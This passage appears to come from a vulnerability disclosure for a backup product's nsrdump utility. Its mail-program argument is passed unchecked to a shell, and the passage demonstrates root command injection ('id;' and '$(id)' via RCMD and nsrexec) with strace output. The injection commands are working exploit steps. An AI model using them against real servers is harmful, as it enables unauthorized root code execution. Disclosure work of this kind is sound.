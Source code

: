 One could, for example, provide sendmail as a mail program:

```
export RCMD="nsrdump -m root@localhost -o test -M sendmail"
nsrexec -c 127.0.0.1
89477 1613727512 5 1 2 1438164800 16224 0 networker-server nsrdump SYSTEM critical 23 error
sending mail: %s. 1 0 108 sendmail -s "Report Home 1.0 networker-server1606991028192168121238"
root@localhost < "/nsr/applogs/rh/test"
```

And nsrdump would launch a subprocess with command line ("sh -c sendmail ..."):

```
[pid 16224] execve("/usr/sbin/nsrdump", ["/usr/sbin/nsrdump", "-m", "root@localhost", "-o",
"test", "-M", "sendmail"], 0x7faa70014470 /* 9 vars */) = 0
[pid 16231] execve("/bin/sh", ["sh", "-c", "sendmail -s \"Report Home 1.0 net"...], 
0x7ffec9638e18 /* 9 vars */) = 0
```

The nsrdump binary accepts any input for the mail program parameter, which leads to arbitrary command injection. In the examples below, we demonstrate two ways of calling `id`:


```
[root@networker-server /]# export RCMD="nsrdump -m root@localhost -o test -M 'id;'"
[root@networker-server /]# nsrexec -c 127.0.0.1
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh: -s: command not found
89477 1613727665 5 1 2 848533312 16405 0 networker-server nsrdump SYSTEM critical 23 error
sending mail: %s. 1 0 103 id; -s "Report Home 1.0 networker-server1606991028192168121238"
root@localhost < "/nsr/applogs/rh/test"
```

```
[root@networker-server /]# export RCMD="nsrdump -m root@localhost -o test -M '\$\(id\)'"
[root@networker-server /]# nsrexec -c 127.0.0.1
sh: uid=0(root): command not found
89477 1613727689 5 1 2 1844410176 16447 0 networker-server nsrdump SYSTEM critical 23 error
sending mail: %s. 1 0 105 $(id) -s "Report Home 1.0 networker-server1606991028192168121238"
root@localhost < "/nsr/applogs/rh/test"
```

This is confirmed by *stracing* the nsrexecd daemon. As we can see in the excerpt below, the `id` binary is launched with execve:

```
[pid  4018] execve("/usr/sbin/nsrdump", ["/usr/sbin/nsrdump", "-o", "test", "-M", "id;",
"-m", "root@localhost"], 0x7f91fc00ecf0 /* 10 vars */) = 0
[pid  4025] execve("/bin/sh", ["sh", "-c", "id; -s \"Report Home 1.0 networke"...], 
0x7ffd3cd861d8 /* 10 vars */) = 0
[pid  4026] execve("/usr/bin/id", ["id"], 0x81b4f0 /* 13 vars */) = 0
```

##### Validating on AWS

We confirmed that this vulnerability affects version (19.4.0.0.Build.25) by launching the attack against our Networker deployment on AWS.
